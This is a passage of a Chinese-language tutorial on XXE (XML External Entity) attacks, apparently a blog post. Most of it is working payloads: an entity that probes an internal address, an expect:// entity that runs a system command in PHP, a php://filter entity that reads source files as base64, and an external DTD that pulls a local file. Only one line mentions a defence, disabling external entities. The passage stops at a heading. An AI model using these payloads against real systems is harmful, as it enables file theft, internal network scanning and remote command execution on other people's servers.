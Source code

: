 

### 内网探测

```javascript
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE user [
<!ENTITY xss SYSTEM "http://192.168.3.1:81/index.txt" >
  ]>
<x>&xss;</x>
```



### RCE

```javascript
该 CASE 是在安装 expect 扩展的 PHP 环境里执行系统命令
<?xml version = "1.0"?>
<!DOCTYPE user [
<!ENTITY xxe SYSTEM "expect://id" >
]>
<x>&xxe;</x>
```

RCE漏洞在实战一般很难遇到

### 伪协议-读文件

```javascript
<!DOCTYPE user[<!ENTITY myentity SYSTEM "php://filter/convert.base64-encode/resource=xxx.php">]>
```

![](https://img-blog.csdnimg.cn/img_convert/3852e2766c8c2e9ca07d10c4817f91f4.png)

### 引入外部实体 dtd

```javascript
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "http://127.0.0.1/test.dtd">
%file;
]>
<x>&send;</x>
test.dtd:
<!ENTITY send SYSTEM "file:///d:/test.txt">
```

- 条件：看对方的应用有没有禁用外部实体引用，这也是防御XXE的一种措施

![](https://img-blog.csdnimg.cn/img_convert/afe65f09a238669cb0fdbe70166c9f3d.png)
![](https://img-blog.csdnimg.cn/img_convert/b2b135377841bd8555209d78a0cb0824.png)

#### 关于百分号的理解
